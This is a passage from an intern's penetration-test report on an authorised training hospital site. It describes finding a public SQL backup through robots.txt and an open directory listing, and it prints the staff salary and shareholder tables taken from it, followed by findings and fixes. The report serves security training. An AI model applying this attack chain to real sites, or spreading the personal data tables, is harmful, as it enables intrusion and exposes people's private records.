
*Figure 9 — Recovered contents of patient_report_2.pdf.*


*Figure 10 — Recovered contents of patient_report_3.pdf.*

**Deliverable:** ✅ Recovered contents of all three files with proof of successful access.

---

### Phase 9 — Database Backup Discovery (M3 Complete)

**Discovery path:**

1. `robots.txt` disclosed the `/old/` directory
2. Manual enumeration of `/old/` exposed a raw directory listing
3. The directory contained a single file: `mediroza_db_backup_2019.sql` (7 KB)
4. The file was downloaded freely — no authentication required

**Real file header:**

```sql
-- mediroza_db_backup_2019.sql
-- Mediroza General Hospital - internal database backup
-- Generated by Mediroza CMS 1.4.2 backup module
-- Host: localhost    Database: mediroza_hr
-- WARNING: contains confidential staff and shareholder records
-- Backup date: 2019-08-27 02:14:03

SET NAMES utf8mb4;
SET FOREIGN_KEY_CHECKS = 0;
```

**📸 Figure 11 — SQL backup file header**


*Figure 11 — Header of the recovered database backup, warning it contains confidential staff and shareholder records.*

---

### Phase 10 — Staff Salary and Shareholder Data Extraction (M3 Complete)

**Table 1 — `staff` (30 employees) — Real extracted data:**

| ID | Name | Job Title | Department | Salary (ZAR/mo) |
|----|------|-----------|------------|-----------------|
| 1 | Dr. Rajesh Naidoo | Chief Pathologist | Diagnostics Lab | 138,000 |
| 2 | Sarah Botha | Chief Financial Officer | Finance | 152,000 |
| 3 | Dr. Johan van der Merwe | Medical Director | Management | 160,000 |
| 4 | Dr. Anita Naicker | Consultant Cardiologist | Cardiology | 132,000 |
| 5 | Dr. Ahmed Kara | Consultant Physician | Internal Medicine | 128,000 |
| 6 | Dr. Yusuf Cassim | Senior Registrar | Emergency & Trauma | 74,000 |
| 7 | Michael Roberts | HR Director | Human Resources | 96,000 |
| 8 | Susan Pretorius | HR Officer | Human Resources | 32,000 |
| 9 | Jameel Malik | IT Systems Administrator | IT | 58,000 |
| 10 | Thabo Molefe | Network Engineer | IT | 46,000 |
| 11 | Nomvula Khumalo | Registered Nurse | Emergency & Trauma | 34,000 |
| 12 | Lerato Mokoena | Registered Nurse | Pediatrics | 33,000 |
| 13 | Bongani Ndlovu | Registered Nurse | Cardiology | 35,000 |
| 14 | Zanele Mahlangu | Nursing Sister | Theatre | 42,000 |
| 15 | Kagiso Sithole | Pharmacist | Pharmacy | 61,000 |
| 16 | Naledi Zulu | Pharmacy Assistant | Pharmacy | 26,000 |
| 17 | Themba Nkosi | Radiographer | Radiology | 44,000 |
| 18 | Palesa Radebe | Radiographer | Radiology | 43,000 |
| 19 | Deepak Pillay | Lab Technologist | Diagnostics Lab | 41,000 |
| 20 | Kavitha Govender | Lab Technician | Diagnostics Lab | 35,000 |
| 21 | Dr. Suresh Moodley | Consultant Radiologist | Radiology | 130,000 |
| 22 | Dr. Fatima Patel | Pediatrician | Pediatrics | 118,000 |
| 23 | Nisha Singh | Physiotherapist | Rehabilitation | 48,000 |
| 24 | Dr. Vikram Chetty | Anaesthetist | Theatre | 135,000 |
| 25 | David Smith | Facilities Manager | Operations | 52,000 |
| 26 | Karen O'Connor | Billing Administrator | Finance | 29,000 |
| 27 | James Wilson | Security Supervisor | Operations | 27,000 |
| 28 | Linda Fourie | Receptionist | Front Office | 19,000 |
| 29 | Peter van Wyk | Procurement Officer | Supply Chain | 38,000 |
| 30 | Andile Mbeki | Ward Clerk | Administration | 21,000 |

**Table 2 — `shareholders` (10 entries) — Real extracted data:**

| # | Shareholder | % | Shares | Class |
|---|-------------|---|--------|-------|
| 1 | Dr. Rajesh Naidoo | 18.00% | 180,000 | Ordinary |
| 2 | Cedar Health Holdings (Pty) Ltd | 15.00% | 150,000 | Ordinary |
| 3 | Dr. Johan van der Merwe | 12.00% | 120,000 | Ordinary |
| 4 | Reddy Family Trust | 11.00% | 110,000 | Ordinary |
| 5 | Thabo Molefe | 10.00% | 100,000 | Ordinary |
| 6 | Sarah Botha | 9.00% | 90,000 | Ordinary |
| 7 | Dr. Ahmed Kara | 8.00% | 80,000 | Preferential |
| 8 | Naledi Zulu | 7.00% | 70,000 | Ordinary |
| 9 | Michael Roberts | 6.00% | 60,000 | Ordinary |
| 10 | Dr. Vikram Chetty | 4.00% | 40,000 | Preferential |

**📸 Figure 12 — Staff table from the SQL backup**


*Figure 12 — Extract of the staff table showing 30 hospital employees with salaries (M3 deliverable confirmed).*

**📸 Figure 13 — Shareholder table from the SQL backup**


*Figure 13 — Full shareholders table recovered from the public backup (M3 deliverable confirmed).*

**Deliverable:** ✅ Full documented evidence + readable summary of exposed data.

---

## 🚨 Findings Summary

| Ref | Finding | Milestone | Severity |
|-----|---------|-----------|----------|
| MGH-01 | Sensitive directory paths disclosed via `robots.txt` | M1 | 🟡 Medium |
| MGH-02 | Unauthenticated directory listings on sensitive folders | M1 | 🔴 Critical |
| MGH-03 | SQL injection authentication bypass on patient login | M1 | 🔴 Critical |
| MGH-04 | Unauthorised retrieval of confidential patient lab reports | M1 | 🔴 Critical |
| MGH-05 | Publicly accessible verbose error log | M1 | 🟡 Medium |
| MGH-06 | Weak, dictionary-guessable PDF passwords | M2 | 🟠 High |
| MGH-07 | Production database backup stored in public web root | M3 | 🔴 Critical |
| MGH-08 | Full staff PII and payroll data exposure (30 employees) | M3 | 🔴 Critical |
| MGH-09 | Shareholder ownership register exposure | M3 | 🟠 High |
| MGH-10 | Missing rate limiting on authentication endpoints | M1 | 🟡 Medium |

**Three Critical · Three High · Four Medium**

---

## 📊 Risk Register

| Ref | Finding | Rating | Justification |
|-----|---------|--------|---------------|
| MGH-01 | robots.txt path disclosure | 🟡 Medium | Provided the roadmap; did not alone expose data. |
| MGH-02 | Directory listings | 🔴 Critical | Directly exposed application files with no authentication. |
| MGH-03 | SQL injection bypass | 🔴 Critical | Full authentication bypass using a well-known, trivial payload. |
| MGH-04 | Patient lab reports retrieved | 🔴 Critical | Confidential patient health information exposed. |
| MGH-05 | Public error log | 🟡 Medium | Information disclosure risk that assisted the attack chain. |
| MGH-06 | Weak PDF passwords | 🟠 High | All three passwords cracked in under 1 second. |
| MGH-07 | Public database backup | 🔴 Critical | Full HR and shareholder dataset downloadable without auth. |
| MGH-08 | Staff payroll exposure | 🔴 Critical | PII, national IDs, and salaries of 30 employees exposed. |
| MGH-09 | Shareholder register exposure | 🟠 High | Complete ownership structure disclosed. |
| MGH-10 | Missing rate limiting on login | 🟡 Medium | Login endpoint exposed to brute-force and credential stuffing. |

**Rating key:**

- 🔴 **Critical:** Confirmed immediate exposure of confidential data or complete authentication bypass
- 🟠 **High:** Materially weakened control successfully exploited
- 🟡 **Medium:** Information-disclosure risk that materially assisted the attack chain
- 🟢 **Low:** Limited impact or best-practice improvement

---

## 🛡️ Recommendations

### 🚨 Immediate (within 24–48 hours)

1. Disable directory listing on every directory, starting with `/patient/`, `/staff/`, and `/old/`.
2. Remove the `/old/` directory and the `mediroza_db_backup_2019.sql` file from the public web root.
3. Rotate every credential exposed by this engagement and force password resets on patient and staff portals.
4. Take the affected patient-report download flow offline until authentication logic is fixed.

### 🔧 Short-Term (within 2 weeks)

5. Remediate the SQL injection in the login form by moving to parameterised queries / prepared statements.
6. Introduce account lockout and rate limiting on all login endpoints.
7. Reissue all three affected patient reports with strong, unique, randomly generated passwords.
8. Remove the publicly accessible `error_log` file and confirm server logging is never written to a web-accessible path.

### 📅 Medium-Term (within 1–3 months)

9. Replace the password-protected-PDF model with an authenticated portal enforcing per-session, per-user access control.
10. Reduce `robots.txt` disclosures — rely on proper access control, not obscurity.
11. Conduct a full data protection impact assessment covering the exposed patient health information, staff personal information, and shareholder financial data.
12. Establish a recurring penetration test schedule (at minimum quarterly) and a documented backup-handling policy.

---

## 📜 Disclaimer

This project was conducted as part of the **Networkwalks Cybersecurity Internship Program** against a training target authorised in writing for security testing. All activity was confined to `medirozahospital.com` and its published sub-paths, in line with the agreed rules of engagement:

- 🚫 No social engineering
- 🚫 No denial of service
- 🚫 No testing outside the agreed scope

The techniques described in this repository are for **educational and defensive purposes only**. They must **never** be applied to any system without explicit written authorisation from the system owner. Unauthorised access to computer systems is illegal in most jurisdictions and can result in criminal charges, fines, and imprisonment.

**The author is not responsible for any misuse of the information or tools described.**

---

<p align="center">
  Report prepared under authorised engagement — Batch B083, Week 4</em><br>
  <strong>CONFIDENTIAL</strong>
</p>

---

## 📁 Repository Structure

```
mediroza-pentest/
├── README.md
└── images/
    ├── 01-robots-txt.png
    ├── 02-patient-listing.png
    ├── 03-old-listing.png
    ├── 04-login-failed.png
    ├── 05-login-payload.png
    ├── 06-portal-pdfs.png
    ├── 07-john-crack.png
    ├── 08-decrypted-contents-1.png
    ├── 09-decrypted-contents-2.png
    ├── 10-decrypted-contents-3.png
    ├── 11-sql-backup-header.png
    ├── 12-staff-table.png
    └── 13-shareholder-table.png
```

---

## 👤 Author: Alale Matthew

**Cybersecurity Intern**
Batch B083 - Week 4
Networkwalks Cybersecurity & Ethical Hacking Program

📅 **Report Date:** 01 October 2026
